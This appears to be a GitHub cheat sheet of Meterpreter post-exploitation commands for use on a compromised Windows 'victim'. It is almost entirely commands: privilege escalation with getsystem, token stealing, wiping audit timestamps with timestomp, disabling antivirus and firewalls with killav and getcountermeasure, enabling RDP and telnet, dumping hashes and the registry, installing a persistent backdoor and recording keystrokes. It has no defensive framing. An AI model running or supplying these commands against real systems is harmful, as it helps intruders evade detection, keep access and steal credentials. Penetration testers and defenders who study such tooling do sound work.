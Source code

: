 # Meterpreter

### Meterpreter Command

Showing running process and their associated user ids: `ps`

Privilege Escalation to Admin:<span style="color:blue">`getsystem`</span>

Show current user name: `getuid`

>`meterpreter > `**`getuid`**

>`Server username: NT AUTHORITY\SYSTEM`

Show current privileges: `getprivs`

Steal Admin: **`steal_token [PID]`**

Incognito \(Similar to `ps`\)

>`meterpreter > `**`use incognito`**

>`meterpreter > `**`list_tokens -u`**

Remove timestamps \(audit log\): `timestomp`

### Useful Meterpreter Scripts

Checks to see if you exploited a virtual machine

>`meterpreter > run checkvm`

Checks the security configuration on the victims system and can disable other security measures such as A/V, Firewall, and much more

>`meterpreter > run getcountermeasure`

Enable RDP on a target system if it is disabled

>`meterpreter > run getgui`

The ‘get\_local\_subnets’ script is used to get the local subnet mask of a victim

>`meterpreter > run get_local_subnets`

The ‘gettelnet’ script is used to enable telnet on the victim if it is disabled.

>`meterpreter > run gettelnet -e`

The <span style="color:red">‘killav’</span> script can be used to disable most antivirus programs running as a service on a target.

>`meterpreter > run killav`

The ‘remotewinenum’ script will enumerate system information through wmic on victim. Make note of where the logs are stored.

>`meterpreter > run remotewinenum -u [target username] -p [target pw] -t [target ip]`

The ‘winenum’ script makes for a very detailed windows enumeration tool. It dumps tokens, hashes and much more.

>`meterpreter > run winenum`

The ‘scraper’ script can grab even more system information, including the entire registry.

>`meterpreter > run scraper`

Creating a <span style="color:red">persistent</span> backdoor on a target host.

>`meterpreter > run persistence`

This script will start the Meterpreter Keylogger and save all keys.

>`meterpreter > run keylogrecorder`

